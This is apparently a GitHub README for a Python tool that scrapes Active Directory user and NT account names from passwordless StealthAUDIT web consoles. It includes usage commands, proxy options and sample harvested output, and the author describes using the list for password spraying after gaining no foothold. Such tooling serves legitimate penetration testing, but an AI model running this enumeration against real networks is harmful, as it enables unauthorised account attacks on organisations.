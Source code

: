 # Stealth_Audit_Scraper
## The new script offers improvements in flexibility (headless mode, login handling), robustness (element selection, error handling), performance (file writing, delay reduction), and code readability. These changes make the script more reliable, adaptable, and maintainable.

![stealth_audit](https://user-images.githubusercontent.com/34954477/162237700-5fed2379-0f1d-46f7-ac4d-bcecfa6239c6.png)

This tool was created to scrape the <a href ="https://stealthbits.com/stealthaudit-for-active-directory-product/">StealthAUDIT Active Directory Auditing Tool</a>. Currently, it scrapes the users name and NT account name from `Active Directory > Users > User Token`. I wrote this because I had no foothold on a network and came across this gem. I immedately scraped all AD users then started spraying passwords! Right now this tool only works with passwordless StealthAUDIT instances. Good luck, have fun!

## stealth_scrape.py usage:
```
usage: stealth_audit_scraper.py [-h] [-o OUTFILE] [-u URL] [-p PROXY] [-pp PROXY_PORT]

StealthAUDIT Scraper >:D

optional arguments:
  -h, --help            show this help message and exit
  -o OUTFILE, --outfile OUTFILE
                        The file to write users to.
  -u URL, --url URL     The webserver in format {http://10.0.0.1:80}.
  -p PROXY, --proxy PROXY
                        The proxy ip in format {10.0.0.1}.
  -pp PROXY_PORT, --proxy_port PROXY_PORT
                        The proxy port in format {1080}.
```

   Basic usage of script:
   
    python3 stealth_scrape.py -u http://10.20.8.85 -p 127.0.0.1 -pp 1080 -o accounts.txt

   Advanced usage of stealth_scrape.py:
   
    $ python3 stealth_scrape.py -u http://10.15.8.20
    [+] Attempting to visit http://10.15.8.20
    [+] Clearing all cookies...
    [+] Dropping down menu
    NT_Account:contoso\administrator	Name:Administrator
    NT_Account:contoso\susanb	Name:Barin, Susan
    
   Example output of ad_users.txt:
   
    contoso\swilliams:Williams, Susan
    contoso\thawk:Hawk, Tony
    contoso\batman:Man, Bat
    contoso\dnutz:Nutz, Deez
    contoso\kmitnick:Mitnick, Kevin
    contoso\rmudge:Mudge, Raphael
    contoso\tmutton:Mutton, Tim

